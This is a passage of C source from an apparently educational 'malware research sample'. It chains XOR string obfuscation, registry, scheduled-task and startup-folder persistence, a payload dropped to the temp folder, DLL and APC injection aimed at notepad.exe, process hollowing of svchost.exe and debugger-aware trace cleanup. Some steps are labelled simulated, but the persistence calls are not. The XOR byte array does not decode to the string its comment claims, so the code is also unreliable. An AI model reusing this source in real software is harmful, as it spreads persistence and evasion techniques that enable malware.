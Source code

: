 ```c
    // Demo string obfuscation
    // Original string was "MalwareResearchSample" encrypted with XOR key 0x5A
    char encrypted_str[] = {0x17, 0x27, 0x34, 0x37, 0x27, 0x28, 0x25, 0x12, 
                           0x25, 0x33, 0x25, 0x27, 0x28, 0x23, 0x20, 0x13, 
                           0x27, 0x36, 0x30, 0x34, 0x25, 0x00};
    
    xor_crypt(encrypted_str, strlen(encrypted_str), 0x5A);
    log_message("DEMO", encrypted_str, TRUE);
    
    // Demo multi-layer obfuscation
    char multi_encrypted[] = {0x72, 0x15, 0x60, 0x71, 0x66, 0x17, 0x60, 0x76, 0x00};
    multi_layer_decrypt(multi_encrypted, strlen(multi_encrypted));
    log_message("DEMO", multi_encrypted, TRUE);
    
    // Set up persistence techniques (for educational demonstration)
    log_message("PERSISTENCE", "Demonstrating persistence techniques:", TRUE);
    set_registry_persistence(szModuleName);
    simulate_scheduled_task_persistence(szModuleName);
    set_startup_folder_persistence(szModuleName);
    
    // Create and drop payload (for educational demonstration)
    // Note: This is a harmless dummy payload
    BYTE dummy_payload[] = { 
        0x4D, 0x5A, 0x90, 0x00, 0x03, 0x00, 0x00, 0x00, 
        0x04, 0x00, 0x00, 0x00, 0xFF, 0xFF, 0x00, 0x00 
    };
    
    char payloadPath[MAX_PATH];
    GetTempPathA(MAX_PATH, payloadPath);
    strcat(payloadPath, "research_payload.bin");
    
    if (drop_file(payloadPath, dummy_payload, sizeof(dummy_payload))) {
        log_message("PAYLOAD", "Dummy payload dropped successfully", TRUE);
        
        // Normally we would execute it, but we'll just simulate for safety
        log_message("PAYLOAD", "Simulating payload execution", TRUE);
    }
    
    // Demo process injection techniques (all simulated for safety)
    log_message("INJECTION", "Demonstrating process injection techniques:", TRUE);
    
    // Find a potential target process (notepad.exe)
    DWORD targetPid = find_process_by_name("notepad.exe");
    if (targetPid) {
        log_message("TARGET", "Found notepad.exe process", TRUE);
        
        // Simulate various injection techniques
        simulate_dll_injection(targetPid, "C:\\temp\\dummy.dll");
        simulate_apc_injection(targetPid);
    } else {
        log_message("INFO", "No target process found for injection demo", TRUE);
        
        // Could launch a process for demonstration, but we'll skip for safety
        log_message("INFO", "You can open notepad.exe to see the injection simulation", TRUE);
    }
    
    // Demonstrate process hollowing with common target
    simulate_process_hollowing("C:\\Windows\\System32\\svchost.exe", payloadPath);
    
    // Clean up our traces if not in debug mode
    if (!debuggerDetected) {
        log_message("CLEANUP", "Performing cleanup...", TRUE);
        
```